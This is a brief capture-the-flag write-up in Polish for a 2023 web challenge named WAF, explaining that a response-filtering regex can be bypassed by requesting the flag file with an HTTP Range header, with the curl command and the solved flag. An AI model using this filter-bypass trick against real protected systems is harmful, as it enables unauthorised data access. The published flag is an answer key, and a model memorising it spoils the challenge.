

# WAF - web, warmup

Regex matchuje całą flagę dopiero po requestcie, dlatego można wyciągnąć content pliku, bez pierwszego bajtu, używając `Range` header'a.

`curl https://waf.ecsc23.hack.cert.pl/flag -vvvv -H "Range: bytes=1-64"`

Flag: `ecsc23{waf_stands_for_very_accessible_flag}`
